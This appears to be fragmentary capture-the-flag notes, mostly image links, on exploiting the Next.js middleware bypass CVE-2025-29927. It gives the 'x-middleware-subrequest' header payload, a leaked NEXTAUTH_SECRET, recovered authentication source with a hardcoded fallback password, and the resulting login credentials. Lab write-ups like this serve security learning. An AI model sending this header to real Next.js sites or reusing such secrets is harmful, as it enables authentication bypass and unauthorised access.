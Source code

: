 ![[IMG-20250823234029175.png]]

# [CVE-2025-29927](https://github.com/lirantal/vulnerable-nextjs-14-CVE-2025-29927)

![[IMG-20250824012840494.png]]

![[IMG-20250824012910247.png]]
USE:
```
x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware
```

![[IMG-20250824012954799.png]]

![[IMG-20250824013047596.png]]

![[IMG-20250824172304583.png]]

![[IMG-20250824171318691.png]]



![[IMG-20250824171346486.png]]

![[IMG-20250824172115997.png]]

```
NEXTAUTH_SECRET=82a464f1c3509a81d5c973c31a23c61a
```

![[IMG-20250825144128893.png]]

```
  "/api/auth/[...nextauth]": "pages/api/auth/[...nextauth].js",
```

![[IMG-20250825144743209.png]]

```js
let o = {
        session: { strategy: "jwt" },
        providers: [
          r.n(CredentialsProvider)()({
            name: "Credentials",
            credentials: {
              username: { label: "User", type: "username" },
              password: { label: "Password", type: "password" }
            },
            authorize: async e =>
              e?.username === "jeremy" &&
              e.password === (process.env.ADMIN_SECRET ?? "MyNameIsJeremyAndILovePancakes")
                ? { id: "1", name: "Jeremy" }
                : null
          })
        ],
        pages: { signIn: "/signin" },
        secret: process.env.NEXTAUTH_SECRET
      };
```
MyNameIsJeremyAndILovePancakes
```
user: jeremy
password: MyNameIsJeremyAndILovePancakes
```

![[IMG-20250825144931061.png]]


